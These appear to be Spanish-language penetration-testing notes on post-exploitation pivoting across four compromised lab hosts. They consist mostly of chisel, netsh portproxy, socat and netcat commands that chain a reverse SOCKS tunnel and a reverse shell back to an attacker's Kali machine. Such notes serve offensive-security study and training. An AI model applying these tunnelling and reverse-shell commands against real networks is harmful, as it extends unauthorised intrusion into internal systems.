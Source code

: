 
Hay que tener en cuenta que el pivoting forma parte de la Post-Explotación, osea que primero hay que conseguir explotar la máquina para poder pivotar a otras máquinas que estén en sus redes internas a las que nosotros como atacante no tenemos acceso.

Suponiendo que la Windows es la víctima 3:

*KALI es 192.168.111.37*
*víctima1 es 192.168.111.38 y también es 10.10.0.128
victima2 es 10.10.0.129 y también es 192.168.100.128
víctima3 es 192.168.100.130 y también 172.18.0.128
víctima 4 es 172.18.0.129

```
Victima 4 se conecta a victima 3 para hacer el túnel

./chisel client 172.18.0.128:8787 R:5522:socks
```

*Estamos a la escucha por el puerto 8787 para redirigir el tráfico de chisel que nos llegue a cualquier interfaz hacia el puerto 8788 de la máquina con el nodo más cercano (victima2).*

```
Victima 3 (windows) redirige el tráfico por NetSH a victima2

netsh interface portproxy add v4tov4 listenport=8787 listenaddress=0.0.0.0 connectport=8788 connectaddress=192.168.100.128
```


```
Victima 2 (Linux) redirige el tráfico con socat a victima1

./socat TCP-LISTEN:8788,fork TCP:10.10.0.128:8789
```


```
Victima 1 (Linux) redirige el tráfico con socat a KALI

./socat TCP-LISTEN:8789,fork TCP:192.168.111.37:1234
```

**LA KALI ES LA QUE TIENE EL MAIN SERVER DE CHISEL EL CUAL VA A RECIBIR EL TÚNEL

```
./chiselLinux server --reverse -p 1234
```

**EN CASO DE QUE FUERA UNA REVERSE SHELL, LA VÍCTIMA1 TIENE QUE REDIRIGIR EL TRÁFICO A LA KALI AL PUERTO QUE ESTÉ EN ESCUCHA CON NETCAT

```
Victima 1 (Linux) redirige el tráfico con socat a KALI

./socat TCP-LISTEN:8789,fork TCP:192.168.111.37:443
```

*KALI A LA ESCUCHA CON NETCAT PARA RECIBIR LA REVERSE SHELL.*

```
nc -nlvp 443
```